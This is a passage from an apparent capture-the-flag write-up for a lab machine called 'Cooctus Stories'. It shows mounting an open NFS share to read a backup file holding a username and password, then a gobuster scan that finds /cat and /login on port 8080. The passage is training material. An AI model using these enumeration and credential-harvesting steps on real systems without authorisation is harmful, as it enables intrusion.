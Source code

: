~~~
~~~

## NFS

There is a NFS network share that reveals credentials:

* Username: paradoxial.test
* Password: ShibaPretzel79

~~~
┌──(kali㉿kali)-[/data/Cooctus_Stories/files]
└─$ mkdir tmp  
                                                                                                                     
┌──(kali㉿kali)-[/data/Cooctus_Stories/files]
└─$ sudo mount -t nfs 10.10.94.63: tmp 
                                                                                                                     
┌──(kali㉿kali)-[/data/Cooctus_Stories/files]
└─$ tree tmp 
tmp
└── var
    └── nfs
        └── general
            └── credentials.bak

3 directories, 1 file
                                                                                                                     
┌──(kali㉿kali)-[/data/Cooctus_Stories/files]
└─$ cat tmp/var/nfs/general/credentials.bak 
paradoxial.test
ShibaPretzel79
~~~

## Web

There is a web service running on port 8080. There is no `robots.txt` file but the enumeration reveals 2 locations.

~~~
└─$ gobuster dir -u http://10.10.94.63:8080 -w /usr/share/wordlists/dirb/common.txt                            5 ⨯
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.94.63:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/05/28 09:46:41 Starting gobuster in directory enumeration mode
===============================================================
/cat                  (Status: 302) [Size: 219] [--> http://10.10.94.63:8080/login]
/login                (Status: 200) [Size: 556]                                      
                                                                                     
===============================================================
2021/05/28 09:47:35 Finished
===============================================================
~~~

